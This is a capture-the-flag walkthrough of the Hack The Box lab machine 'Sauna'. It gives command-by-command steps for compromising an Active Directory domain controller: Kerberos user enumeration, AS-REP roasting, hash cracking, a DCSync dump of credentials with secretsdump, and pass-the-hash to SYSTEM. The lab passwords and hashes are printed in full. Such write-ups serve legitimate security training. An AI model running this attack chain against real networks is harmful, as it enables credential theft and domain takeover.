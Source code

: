 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Sauna

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these usernames and create a list with all possible usernames for everyone in the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" and create a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Once we get a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration

For Post-Compromise Enumeration, we can use tools such as "_BloodHound_" or "_PlumHound_".

Let's use BloodHound in this case.

#### BloodHound

Running BloodHound's ingestor on the target:

```bash
bloodhound-python -d egotistical-bank.local -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all
```

Now we run BloodHound:

```
sudo neo4j console

sudo bloodhound
```

Next, we import our data into BloodHound and analyze the results:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>hsmith is a kerberoastable account</p></figcaption></figure>

Despite "_hsmith_" being a "kerberoastable" user, this account won't get us any farther due to the fact it has fewer privileges than the "_fsmith_" account.

However, the SVC\_LOANMGR can perform a DCSync attack on the Domain Controller:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>DCSync Attack Capability</p></figcaption></figure>

So this user is high value if we're able to grab his credentials.

Let's pop a shell on the target and run winPEAS on it to see if we can find anything interesting:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>svc_loanmanager credentials</p></figcaption></figure>

### Exploitation

Now that we have a valid set of credentials for the account svc\_loanmanager, we can try to perform the DCSync attack we previously found this account was able to perform.

To do this, we'll use "_secretsdump_":

```bash
secretsdump.py egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

This should dump all of the SAM Hashes for every user of that machine:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>SAM Dump</p></figcaption></figure>

Now we just try to crack the Administrator's hash:

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Hashcat couldn't crack the hash</p></figcaption></figure>

As we can see, our wordlist doesn't have the password that matches this hash. So, we'll need to take a different approach. We can perform a "_Pass-The-Hash_" attack, where we don't need to provide a password to log in as the user.

In this attack, instead of providing a password for login, we'll provide the Hash and still be able to login:

```bash
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>We're system on the machine</p></figcaption></figure>



### Root Flag

Once we have system on the machine, we can simply navigate to the Administrator's desktop, where we'll find the Root Flag:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>
